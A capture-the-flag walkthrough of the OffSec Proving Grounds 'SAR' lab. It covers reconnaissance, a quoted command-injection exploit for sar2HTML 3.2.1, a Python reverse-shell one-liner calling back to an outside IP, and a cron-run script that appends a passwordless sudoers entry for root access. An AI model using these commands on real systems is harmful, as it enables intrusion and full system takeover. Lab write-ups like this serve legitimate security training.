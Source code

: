 * * *
  ### Lab: SAR 
  PROVING GROUNDS(OFFSEC)
* * *  

- Rustscan's result

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/97284a17-94cb-4f78-8f88-19a4ad4f679a)

- FFuf's result reveals a robots.txt file

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/41e46114-78d0-4ba4-b515-4714e29e30ea)

- Robots.txt reveals a "sar2HTML" directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0bc608fb-cc28-4367-8fca-7fd69edf36a0)

- The sar2HTML directory reveals a sar2HTML ver  3.2.1 page on the server

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fb297a18-93de-49ba-a9a7-c6eeac73bde8)

- According to exploitDB, this version of sar2HTML is vulnerable to rce and we can pop a rev shell via that vulnerability.<a href="https://www.exploit-db.com/exploits/47204">Link to the
  details</a>

       # Exploit Title: sar2html Remote Code Execution
       # Date: 01/08/2019
       # Exploit Author: Furkan KAYAPINAR
       # Vendor Homepage:https://github.com/cemtan/sar2html 
       # Software Link: https://sourceforge.net/projects/sar2html/
       # Version: 3.2.1
       # Tested on: Centos 7

      In web application you will see index.php?plot url extension.

      http://<ipaddr>/index.php?plot=;<command-here> will execute 
      the command you entered. After command injection press "select # host" then your command's 
      output will appear bottom side of the scroll screen.
            
- Testing it reveals this

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/16367f87-5490-46fd-9383-3668cf8a484d)

### Foothold
- Popping a revshell with python3 code "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.164",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'"
  and stabilizing it

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/79d334c2-9911-401b-a69d-76220dc499bc)

### Privesc with cronjob running a writable script as root

- View existing crontab with "cat /etc/crontab"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9d1d9bc0-f8b8-4e3c-8a3f-63cdce079faf)

- Checking the status if it is active with "service cron status"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/bf0e8c78-bddb-4175-a0ac-77b1468b069f)

- We have write permissions for the script that finally.sh is running

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2a213b1e-188f-4cbf-a88e-25c2add6eb56)

- I got this script from this site to write a command to /etc/sudoers to allow www-data to use sudo without a password.<a href="https://vk9-sec.com/exploiting-the-cron-jobs-misconfigurations-privilege-escalation">Link to script</a>

      #! /usr/bin/env python3
      import os
      import sys
      try:
         print("on it")
         os.system("echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")
      except:
          print("Didn't work")
          sys.exit()
- We will receive the file via python http.server,delete write.sh and set our malicious write.sh for the cronjob to run and wait for some minutes.

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/90221deb-16e0-411d-b045-22bd1bd10c3d)

- Gain root access with "sudo bash"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3966397a-d9ac-4a05-8262-3b1d020669f6)

- Root access
  
 
  
   

